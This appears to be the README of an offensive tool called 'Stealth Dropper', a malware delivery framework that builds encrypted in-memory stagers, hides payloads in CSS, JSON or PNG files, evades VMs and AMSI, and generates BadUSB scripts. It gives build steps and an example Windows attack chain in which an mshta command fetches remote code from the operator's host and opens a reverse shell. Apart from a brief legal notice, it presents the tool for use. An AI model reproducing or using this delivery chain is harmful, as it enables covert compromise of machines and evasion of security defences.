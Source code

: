 # Stealth Dropper (2025 Edition)

**Multi-stage, multi-OS, in-memory malware delivery framework**

## ✅ Features
- AES-256 encrypted payload delivery
- Full in-memory execution (no file drops)
- Multi-OS support: Windows / Linux / macOS
- Web-based stagers via mshta / rundll32 / regsvr32
- Payload delivery via CSS, JSON, PNG (LSB stego)
- Anti-VM / sandbox detection module
- DuckyScript generation for WiFi BadUSB

---

## 📁 Project Structure
```
stealth-dropper/
├── run.sh                  # main automation script
├── config/                 # config/settings.json
├── core/                   # anti_vm.ps1
├── output/                 # generated stagers + logs
├── payloads/               # raw stage 2 payloads by OS
├── stagers/                # template stage 1 payloads for delivery
├── tools/                  # encryption & embedding tools
└── web/                    # hosted delivery files
```

---
## 🚀 How to Use

### 0. [RECOMMENDED] Setup Python virtual environment

Before running, it is **highly recommended** to use a Python virtual environment to isolate dependencies:

```bash
# 1. Clone the repository
git clone https://github.com/trxtr337/stealth-dropper-EXTENDED.git
cd stealth-dropper-EXTENDED

# 2. Create a virtual environment
python3 -m venv venv

# 3. Activate the environment:
# For Linux/macOS:
source venv/bin/activate
# For Windows:
venv\\Scripts\\activate

# 4. Install required dependencies
pip install -r requirements.txt

### 1. Set encryption key in `.env`
```
ENCRYPTION_KEY=Zxcvbnm1234567890Zxcvbnm12345678
```

### 2. Run the builder
```bash
chmod +x run.sh
./run.sh
```

You'll be prompted to select:
- IP and PORTS
- Target OS
- Payload type (e.g. shell_reverse)
- Delivery method (css / manifest / png)

Result:
- Stage 2 is AES-encrypted
- Stage 1 (PowerShell / HTA / SCT) is generated
- Payload is embedded in CSS/JSON/PNG
- Server starts at `http://<your-ip>:<port>`
- DuckyScript saved in `output/ducky_payload.txt`

---

## 🧪 Example Attack Chain (Windows)
```
1. Deliver WiFi Ducky:
   > GUI r
   > mshta http://<your-ip>:8000/decrypt.html

2. HTML decrypts AES payload from CSS/JSON/PNG
3. Executes PowerShell stage 2 in memory
4. Reverse shell connects back to you
```

---

## 📦 Supported Payloads
- `windows/shell_reverse` → raw.ps1 TCP shell
- `windows/lolbins/js_payload.html` → mshta/jscript shell
- `linux/bash_reverse` → raw.sh reverse TCP
- `mac/osascript` → raw.osascript reverse shell

---

## 🔐 Stealth Considerations
- No IEX / no downloadstring / no Invoke-Obfuscation
- AMSI bypass injected in stage 1
- Anti-VM checks built-in (RAM, hostname, vendor)
- No file drops unless explicitly instructed

---

## 🛠 Requirements
- Python 3.8+
- pip install -r requirements.txt
- Dependencies: `python-dotenv`, `pycryptodome`, `Pillow`

---

## ⚠️ Legal Notice
> This project is for educational and authorized testing use only.  
> You are responsible for your actions. Do not deploy without explicit permission.

